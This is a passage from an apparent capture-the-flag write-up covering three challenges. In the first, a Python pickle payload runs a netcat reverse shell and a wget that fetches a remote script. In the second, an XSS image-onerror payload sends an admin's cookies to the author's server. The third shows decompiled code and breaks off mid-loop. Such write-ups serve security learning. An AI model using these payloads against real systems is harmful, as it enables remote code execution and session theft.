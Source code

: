 ```
    # cmd = '__import__("os").system("/usr/bin/wget"+str(chr(32))+"http://<snip>:4000/rev_shell.py"+str(chr(32))+"-O"+str(chr(32))+"/tmp/rev_shell.py")'
    cmd = '__import__("os").system("/bin/nc.traditional"+str(chr(32))+"-e"+str(chr(32))+"/bin/bash"+str(chr(32))+"<snip>"+str(chr(32))+"4000")'

    fn = 'eval'

print("Will {} {}({})".format(pickle_type, fn, cmd))
shellcode = pickle.dumps(Exploit())
print(base64.b64encode(shellcode))
```

I used Burp Suite as a proxy in order to change in flight requests with the desired POST verb and the payload. After getting the reverse shell I ran `cat flag`

#### Flag

ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}

## Manual review

I created an account on the webserver and send the message <script>alert(1);</script> which prompted the alert(1) message. After navigating the whole website and not finding anything I tought that maybe there was an "admin" which does review my message in the backend and does run the javascript code sent by me.

I ran a local server and sent the payload `<img src=x onerror=this.src='http://<snip>:4000/leak?cookie='+document.cookie>` which resulted in an access from an external IP. The cookies were not very helpful because of the httponly flag so i started to dump more data from the remote browser. Other dumped data:
 * the `document.body` only displayed the request number
 * the `window.location.href` displayed the url used by the server (something along the lines of `asdasdasdasdasdasdadadadad`). It would only display the last message and only once so it was not very useful
 * the `navigator.userAgent` which did contain the flag

#### Flag

ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}

## Not a fuzz


Looking with IDA at the disassembled code we get the following:

```
  v8 = 'XXXXDAED';
  v9 = 'XXXXDAED';
  v10 = 'XXXXDAED';
  v11 = 'XXXXDAED';
  v12 = 'XXXXDAED';
  v13 = 'XXXXDAED';
  v14 = 'XXXXDAED';
  v15 = 'XXXXDAED';
  v16 = 'XXXXDAED';
  v17 = 'XXXXDAED';
  v18 = 'XXXXDAED';
  v19 = 'XXXXDAED';
  v20 = 'XXXXDAED';
  v21 = 'XXXXDAED';
  v22 = 'XXXXDAED';
  v23 = 'XXXXDAED';
  v24 = 'XXXX}';
  memset(&v25, 0, 0x12F8uLL);
  for ( i = 1; i <= 9999; ++i )
  {
    if ( i == 3 )
    {
```